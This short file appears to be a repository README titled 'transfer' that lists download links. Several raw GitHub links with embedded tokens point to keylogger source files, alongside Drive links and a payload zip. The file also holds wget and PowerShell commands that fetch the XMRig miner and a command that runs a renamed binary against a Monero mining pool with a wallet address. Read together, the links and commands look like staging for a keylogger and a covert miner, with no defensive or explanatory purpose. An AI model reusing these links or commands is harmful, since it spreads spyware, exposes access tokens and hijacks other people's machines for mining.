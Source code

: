 # transfer

https://drive.google.com/file/d/16wLPMsuBvZqaU5ZDeELPVCoBJHaalfR0/view?usp=drivesdkhttps://codeload.github.com/lucatana/pytelepub/zip/main?token=ASTM5UPX77HQJAYDI4RIT23ACBKLC
https://raw.githubusercontent.com/Imper927/keyloger/master/KeyloggerFunctions.h?token=ALATRBR7QOVLY2J57DY7BHDACEKU2
https://raw.githubusercontent.com/Imper927/keyloger/master/Source.cpp?token=ALATRBTUCYB7MLMJPL42JULACELQG
https://raw.githubusercontent.com/Imper927/keyloger/master/KeyloggerFunctions.h?token=ALATRBRHNMQPZ5LCUKHXEC3ACELYI
https://raw.githubusercontent.com/Imper927/keyloger/master/Source.cpp?token=ALATRBSK7DZLR2JOK6F3Y3LACK43Y
https://github.com/Imper927/pytelepub/raw/master/python_nod_noautoinstall.zip
https://drive.google.com/file/d/1JtlKC68Wr8Ub32V0OOoAIruOS0ONWlvd/view?usp=drivesdk

wget https://github.com/xmrig/xmrig/archive/refs/heads/master.zip
Invoke-WebRequest https://github.com/xmrig/xmrig/archive/refs/heads/master.zip

./name -o pool.minexmr.com:4444 -u 43xJcP3LMskbmEsMdGJ6V9JnoZFSHfhnBXCUjngKAPSf5BfuicYr8Wae4YvCTuKxVxga8RWGut8T8UP9YrsRmBDyQnr9Vwu --cuda --opencl
